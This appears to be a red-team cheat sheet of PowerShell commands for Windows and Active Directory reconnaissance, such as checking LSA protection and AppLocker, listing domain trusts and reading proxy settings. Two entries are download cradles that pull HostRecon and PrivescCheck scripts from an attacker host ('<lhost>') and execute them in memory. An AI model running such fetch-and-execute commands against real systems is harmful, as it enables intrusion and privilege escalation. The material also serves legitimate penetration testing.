 ## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```
## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
```
// https://github.com/dafthack/HostRecon
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck

```powershell
//https://github.com/itm4n/PrivescCheck
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## powershell get proxy address
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```
